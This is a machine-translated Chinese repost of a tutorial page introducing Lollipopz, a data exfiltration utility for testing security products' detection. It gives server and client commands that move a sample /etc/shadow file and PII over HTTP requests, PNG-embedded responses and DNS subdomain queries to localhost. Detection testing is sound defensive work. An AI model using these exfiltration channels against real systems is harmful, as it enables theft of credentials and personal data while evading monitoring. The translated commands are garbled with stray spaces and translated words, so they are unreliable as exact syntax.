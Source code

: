# Lollipopz:用于测试检测能力的数据过滤工具

> 原文：<https://kalilinuxtutorials.com/lollipopz/>

[![Lollipopz : Data Exfiltration Utility For Testing Detection Capabilities](img/e5a7a0ba96ba8a6d5d100bc4bef91f0a.png "Lollipopz : Data Exfiltration Utility For Testing Detection Capabilities")](https://1.bp.blogspot.com/-DVg_hQE9CMA/XpsOiS_GUNI/AAAAAAAAF9Y/MNJu6EWSoHUAhZpGdI-_PGH2PV2Sh9b5gCLcBGAsYHQ/s1600/Data%2BExfiltration%25281%2529.png)

**Lollipopz** 是一个用于测试检测能力的数据过滤工具。用于测试安全产品检测能力的数据过滤实用程序。显然只是为了法律目的。

如何渗透？

**/etc/shadow - > HTTP GET 请求**

*   **服务器**

**#。/lollipopz-CLI . py-m lollipopz . methods . http . param _ cipher。GETServer -lp 80 -o output.log**

*   **客户端**

**$。/lollipopz-CLI . py-m lollipopz . methods . http . param _ cipher。GETClient-RH 127 . 0 . 0 . 1-RP 80-I ./samples/shadow . txt-r**

**/etc/shadow - > HTTP POST 请求**

*   **服务器**

**#。/lollipopz-CLI . py-m lollipopz . methods . http . param _ cipher。POSTServer -lp 80 -o output.log**

*   **客户端**

**$。/lollipopz-CLI . py-m lollipopz . methods . http . param _ cipher。post client-RH 127 . 0 . 0 . 1-RP 80-I ./samples/shadow . txt-r**

**也可阅读-[尾巴:保护你隐私的活系统&匿名](https://kalilinuxtutorials.com/tails-live-system-to-preserve-your-privacy-anonymity/)**

**PII - >嵌入在 HTTP 响应中的 PNG**

*   **服务器**

**$。/lollipopz-CLI . py-m lollipopz . methods . http . image _ response。Server -lp 37650 -o output.log**

*   **客户端**

**#。/lollipopz-CLI . py-m lollipopz . methods . http . image _ response。客户端-RH 127 . 0 . 0 . 1-RP 37650-LP 80-I ./samples/pii . txt-r**

**PII - > DNS 子域名查询**

*   **服务器**

**#。/lollipopz-CLI . py-m lollipopz . methods . DNS . subdomain _ cipher。Server -lp 53 -o output.log**

*   **客户端**

**$。/lollipopz-CLI . py-m lollipopz . methods . DNS . subdomain _ cipher。客户端-RH 127 . 0 . 0 . 1-RP 53-I ./samples/pii . txt-r**

[**Download**](https://github.com/tasooshi/lollipopz)